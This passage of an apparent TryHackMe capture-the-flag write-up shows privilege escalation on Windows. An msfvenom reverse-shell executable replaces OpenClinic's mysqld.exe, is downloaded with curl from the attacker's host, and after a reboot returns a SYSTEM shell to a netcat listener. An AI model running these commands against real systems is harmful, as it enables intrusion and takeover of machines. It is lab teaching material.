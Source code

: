 Craft the exploit!

```bash
└──╼ $msfvenom -p windows/shell_reverse_tcp LHOST=10.8.226.203 LPORT=2311 -f exe > ./mysqld.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

On the target machine, invalidate the real db by renaming it

```bash
C:\projects\openclinic\mariadb\bin>cd C:\projects\openclinic\mariadb\bin
cd C:\projects\openclinic\mariadb\bin

C:\projects\openclinic\mariadb\bin>ren "mysqld.exe" "mysqld_bak.exe"
rename "mysqld.exe" "mysqld.bak"
```
And deliver yours in the same folder (my python server is still up so I dont need apache)

```bash
C:\projects\openclinic\mariadb\bin>curl http://10.8.226.203:8000/mysqld.exe -o "C:\projects\openclinic\mariadb\bin\mysqld.exe"
curl http://10.8.226.203:8000/mysqld.exe -o "C:\projects\openclinic\mariadb\bin\mysqld.exe"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 73802  100 73802    0     0  73802      0  0:00:01  0:00:01 --:--:-- 68398
```
Restart

```bash
C:\projects\openclinic\mariadb\bin>shutdown /r /t 1
shutdown /r /t 1
```

It took a bit

```bash
└──╼ $nc -lnvp 2311
listening on [any] 2311 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 49670
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

Get your proof-of-success!

```bash
C:\Users\Nekrotic\Desktop>type root.txt
type root.txt
THM{beeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeep}

```
